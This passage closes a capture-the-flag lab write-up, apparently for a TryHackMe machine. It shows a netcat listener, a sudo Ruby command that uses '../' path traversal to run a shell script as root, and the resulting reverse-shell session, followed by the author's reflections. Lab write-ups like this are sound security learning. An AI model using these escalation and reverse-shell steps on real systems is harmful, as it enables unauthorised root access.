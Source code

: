 Of course replace `[Your IP]` with actual THM IP

Then, set up a netcat listener on your machine
```
$ nc -lvnp 1337
```

And execute the shell with using payload that contains `../` in it
```
$ sudo /usr/bin/ruby /root/../tmp/shell.rb
```

Netcat we got the shell, we are root!
```
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.9.3.230] from (UNKNOWN) [10.10.242.145] 54412
# whoami
root
```

And that's it - machine pwned go for the root flag

## Conclusion

Oh god, I had to use a writeup to get through initial access part.

While privilege escalation was kind of trivial, obtaining user shell was really challenging

It was the first time, I've looked into `/proc` dir and enumerated something there - my notes are growing!

I hope you've enjoyed it as much as I did, thanks for reading.

Check out [my other blog](https://wizarddos.github.io/blog) as I'm planning to post one pretty big article there

And that's about it, wait for video version of this writeup and see you next time!
